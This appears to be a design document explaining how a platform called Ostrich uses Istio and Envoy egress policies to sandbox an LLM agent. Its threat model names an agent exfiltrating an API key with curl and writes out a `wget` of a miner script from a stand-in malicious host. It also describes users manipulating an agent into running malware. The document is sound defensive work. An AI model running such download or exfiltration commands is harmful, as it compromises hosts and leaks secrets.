

# Envoy Proxy & Egress Security

In any agentic platform, giving a Large Language Model the ability to run arbitrary Python code and bash commands is extremely dangerous. If a malicious user convinces the agent to run a script downloading malware or participating in a botnet, the platform is compromised.

To mitigate this, Ostrich employs **Istio** and **Envoy Proxies** to enforce a Zero-Trust Network Architecture.

## The Threat Model
1. **Data Exfiltration**: The agent reads an API key from the environment and `curl`s it to an attacker's server.
2. **Malware Download**: The agent runs `wget http://malicious.com/miner.sh` and executes it inside the pod.
3. **Internal Pivoting**: The agent attempts to port-scan the Kubernetes cluster or reach the `kube-dns` to discover internal services.

## The Istio/Envoy Solution

We use Istio's sidecar injection mechanism to force all network traffic originating from the `sandbox-chat` namespace through an Envoy proxy.

## Egress Policies in Detail

### 1. Default Deny All
By default, the `sandbox-network-policy.yaml` drops all outbound egress traffic from the `sandbox-chat` namespace.

### 2. The ServiceEntry & Egress Gateway
We define Istio `ServiceEntry` objects for the explicit hostnames the agent absolutely needs to function:
- `litellm-proxy.ai-gateway.svc.cluster.local` (To reach the LLM)
- `storage.googleapis.com` (To back up workspaces to GCS)

When the agent executes a network request (e.g., `requests.post()`), the traffic is intercepted via `iptables` and routed into the Envoy sidecar. Envoy parses the HTTP `Host` header.
- If the `Host` is `storage.googleapis.com`, Envoy allows the traffic to pass through the Istio Egress Gateway out to the internet.
- If the `Host` is literally anything else (e.g., `github.com`, `npm.js`, `attacker.com`), Envoy instantly drops the connection and returns a `403 Forbidden` or `503 Service Unavailable`.

### Limiting the Agent
Because the agent cannot access the public internet, it cannot natively run `npm install`, `pip install`, or `git clone` unless those specific registries are explicitly whitelisted in the `istio-egress-policy.yaml`. This guarantees that the agent is tightly boxed into the pre-baked dependencies provided in the `ostrich-sandbox:latest` Docker image, fundamentally preventing supply-chain or download-based attacks.
